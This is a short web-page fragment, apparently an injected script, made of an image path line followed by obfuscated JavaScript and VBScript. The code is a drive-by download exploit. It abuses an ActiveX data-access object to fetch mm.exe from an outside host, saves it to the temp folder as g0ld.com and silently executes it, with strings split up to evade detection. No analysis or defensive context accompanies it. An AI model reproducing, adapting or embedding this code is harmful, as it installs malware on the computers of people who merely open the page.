 <SCRIPT>var qq575562708="%3Chtml%3E%3Cscript language%3D%22VBScript%22%3E    on error resume next%0D%0A";document.write(unescape(qq575562708))</SCRIPT>
Cikeqq575562708="http://1.9797aiai.com/mm/mm.exe"
ri = Cikeqq575562708
Set df = document.createElement("ob"&"ject")
df.setAttribute "classid", "clsid:B"&"D"&"9"&"6"&"C"&"5"&"5"&"6-6"&"5"&"A3-11D"&"0-98"&"3A-0"&"0C04FC"&"29E"&"36"
wocao="Microsoft"&".XMLHTTP"
Set x = df.CreateObject(wocao,"")
fuckqaz1="Ado"
fuckqaz2="db."
fuckqaz3="str"&"ea"
wocao1=fuckqaz1&fuckqaz2&fuckqaz3
wocao5=wocao1
set cike888 = df.createobject(wocao5&"m","")
cike888.type = 1
wocao6="G"&"ET"
x.Open wocao6, ri, False
x.Send
fname1="g0ld"&".com"
set F = df.createobject("Scripti"&"ng.FilesystemObject","")
set tmp = F.GetSpecialFolder(2) 
cike888.open
fname1= F.BuildPath(tmp,fname1)
cike888.write x.ReSPoNSeBoDy
cike888.SAVETOFILE fname1,2
cike888.close
set Q = df.createobject("Shell.Ap"&"plication","")
Q.ShellExecute fname1,"","","ope"&"n",0
</script>